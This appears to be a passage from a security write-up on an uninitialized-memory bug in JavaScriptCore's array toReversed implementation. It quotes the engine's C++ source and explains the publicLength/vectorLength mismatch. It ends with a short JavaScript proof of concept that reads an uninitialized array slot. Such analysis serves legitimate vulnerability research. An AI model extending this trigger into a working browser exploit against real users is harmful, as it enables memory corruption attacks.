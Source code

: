 ```cpp
       } else if (holesMustForwardToPrototype() && containsHole(srcData, static_cast<uint32_t>(length)))
           return nullptr;


       auto vectorLength = Butterfly::optimalContiguousVectorLength(resultStructure, length);//[2.1]
       void* memory = vm.auxiliarySpace().allocate(
           vm,
           Butterfly::totalSize(0, 0, true, vectorLength * sizeof(EncodedJSValue)),
           nullptr, AllocationFailureMode::ReturnNull);
       if (UNLIKELY(!memory))
           return nullptr;
       auto* butterfly = Butterfly::fromBase(memory, 0, 0);
       butterfly->setVectorLength(vectorLength);
       butterfly->setPublicLength(length);


       auto resultData = butterfly->contiguous().data();
       memcpy(resultData, srcData, sizeof(JSValue) * length);//[1]


       if (hasDouble(indexingType)) {
           auto data = butterfly->contiguousDouble().data();
           std::reverse(data, data + length); // [2]
       } else
           std::reverse(resultData, resultData + length);


       return createWithButterfly(vm, nullptr, resultStructure, butterfly);
   }
//...
}
```

Additionally, after initializing the necessary butterfly’s lengths, the function goes through `memcpy` (1) and immediately performs a reverse operation (2) , leaving any leftover uninitialized if `publicLength` is smaller than `vectorLength`. 

In the JavaScriptCore IndexingHeader class, `publicLength` is public visible length (array.length), while `vectorLength` is the length of the indexed property storage ( the actual size of storage it is holding). 

### Proof of Concept


Here's a simple PoC that triggers the vulnerability:


```js
const v1 = [-1n]; // create a JSArray 
let v2;
v2 = v1.toReversed();// call arrayProtoFuncToReversed
print(describe(v2));
sleepSeconds(5); // pause execution
print(v2[2].print()); // access randomly a field of v2[2]
```
